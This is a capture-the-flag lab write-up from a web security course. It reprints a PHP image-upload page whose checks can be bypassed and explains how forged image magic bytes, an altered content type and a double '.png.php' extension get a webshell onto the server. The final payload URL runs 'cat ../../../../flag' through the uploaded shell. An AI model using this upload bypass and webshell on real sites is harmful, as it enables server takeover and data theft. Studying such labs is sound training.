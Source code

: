 ```yaml
---
title: Simple Web 0x06(Lab - Image Space 0x03)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Upload"
---
```


# Simple Web 0x06(Lab - Image Space 0x03)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9012

## Background
[file signature](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Source code
:::spoiler
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);
    $extension = strtolower(explode(".", $filename)[1]);

    if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false) {
        die("Invalid file extension: $extension.");
    }

    if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false) {
        die("Invalid file type: " . $_SERVER["CONTENT_TYPE"]);
    }

    list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);

    if ($type !== IMAGETYPE_JPEG && $type !== IMAGETYPE_PNG) {
        die("Invalid image type.");
    }

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"/images/${prefix}_${filename}\">";
?>
```
:::
It has 2 extra constraint must be bypassed. Use `burpsuite` and change valid file signature

## Exploit - bypass `IMAGETYPE` + bypass `$_FILES['image_file']['type']`
1. `HxD` - bypass `IMAGETYPE`
Add valid file signature at the beginning from [wiki page](https://en.wikipedia.org/wiki/List_of_file_signatures)
png: `89 50 4E 47 0D 0A 1A 0A`
jpg: `FF D8 FF DB`
2. `burpsuite` - bypass file type
![](https://i.imgur.com/02Mh97T.png)
3. Then we got shell!!!
payload: `http://h4ck3r.quest:9012/images/353d74c11becb9b1_webshell_valid_filetype.png.php?sh=cat%20../../../../flag`